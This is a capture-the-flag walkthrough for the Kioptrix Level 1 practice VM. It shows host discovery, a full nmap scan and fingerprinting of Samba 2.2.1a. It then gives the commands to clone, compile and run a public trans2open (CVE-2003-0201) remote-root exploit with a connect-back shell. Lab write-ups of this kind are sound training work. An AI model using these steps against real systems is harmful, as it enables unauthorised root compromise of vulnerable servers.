 # Kioptrix: Level 1

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges

Let discover the ip address of machine

```
sudo netdiscover -I ens33
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Lets now use nmap

```
nmap  -A  192.168.100.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 22:14 +03
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 16.67% done; ETC: 22:15 (0:00:30 remaining)
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 22:15 (0:00:02 remaining)
Nmap scan report for 192.168.100.39
Host is up (0.00069s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2024-08-21T19:09:54+00:00; -5m15s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -5m15s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds

```

Nothing ineresting in finding subdomains

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

When asccesing in any usane same thing will be in mtrg and manual

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

I found the version of machine in smb server in Metasploit framework in smb\_verion module is Samba 2.2 1a

Exploit with details in link

{% hint style="info" %}
Samba versions 2.2.0 to 2.2.8

This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they apparently do not allow anonymous access to I
{% endhint %}

{% embed url="https://github.com/KernelPan1k/trans2open-CVE-2003-0201" %}
Exploit with detail&#x20;
{% endembed %}

```
Git clone https://github.com/KernelPan1k/trans2open-CVE-2003-0201.git
```

Then cd to it

```
Then gcc trans2open.c -o exploit then 
```

```bash
Chmod +x exploit 
```

```
./exploit -h 
Samba < 2.2.8 Remote Root exploit by Schizoprenic
Connect back method, Xnuxer-Labs, 2003.
Usage  : ./exploit <type> <victim> <your_ip>
Targets:
         0 = Linux
         1 = FreeBSD/NetBSD
         2 = OpenBSD 3.0 and prior
         3 = OpenBSD 3.2 - non-exec stack

```

**Root User :**&#x20;

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption><p>root user</p></figcaption></figure>

